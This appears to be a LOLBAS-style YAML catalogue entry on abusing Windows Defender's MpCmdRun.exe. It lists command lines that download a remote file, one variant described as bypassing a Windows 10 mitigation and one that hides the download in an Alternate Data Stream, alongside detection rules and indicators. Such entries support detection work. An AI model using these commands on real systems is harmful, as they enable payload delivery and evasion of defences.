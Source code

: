 ```yaml
---
Name: MpCmdRun.exe
Description: Binary part of Windows Defender. Used to manage settings in Windows Defender
Author: Oddvar Moe
Created: 2020-03-20
Commands:
  - Command: MpCmdRun.exe -DownloadFile -url {REMOTEURL:.exe} -path {PATH_ABSOLUTE:.exe}
    Description: Download file to specified path - Slashes work as well as dashes (/DownloadFile, /url, /path)
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10
  - Command: copy "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" C:\Users\Public\Downloads\MP.exe && chdir "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\" && "C:\Users\Public\Downloads\MP.exe" -DownloadFile -url {REMOTEURL:.exe} -path C:\Users\Public\Downloads\evil.exe
    Description: Download file to specified path - Slashes work as well as dashes (/DownloadFile, /url, /path) [updated version to bypass Windows 10 mitigation]
    Usecase: Download file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10
  - Command: MpCmdRun.exe -DownloadFile -url {REMOTEURL:.exe} -path {PATH_ABSOLUTE:.exe}:evil.exe
    Description: Download file to machine and store it in Alternate Data Stream
    Usecase: Hide downloaded data inton an Alternate Data Stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.4-0\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.7-0\MpCmdRun.exe
  - Path: C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/159bf4bbc103cc2be3fef4b7c2e7c8b23b63fd10/rules/windows/process_creation/win_susp_mpcmdrun_download.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/6ef5c53b0c15e344f0f2d1649941391aea6fa253/rules/windows/command_and_control_remote_file_copy_mpcmdrun.toml
  - IOC: MpCmdRun storing data into alternate data streams.
  - IOC: MpCmdRun retrieving a file from a remote machine or the internet that is not expected.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching mpcmdrun.exe.
  - IOC: Monitor for the creation of %USERPROFILE%\AppData\Local\Temp\MpCmdRun.log
  - IOC: User Agent is "MpCommunication"
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-antivirus/command-line-arguments-microsoft-defender-antivirus
  - Link: https://twitter.com/mohammadaskar2/status/1301263551638761477
  - Link: https://twitter.com/Oddvarmoe/status/1301444858910052352
  - Link: https://twitter.com/NotMedic/status/1301506813242867720
Acknowledgement:
  - Person: Askar
    Handle: '@mohammadaskar2'
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: RichRumble
  - Person: Cedric
    Handle: '@th3c3dr1c'
---
```

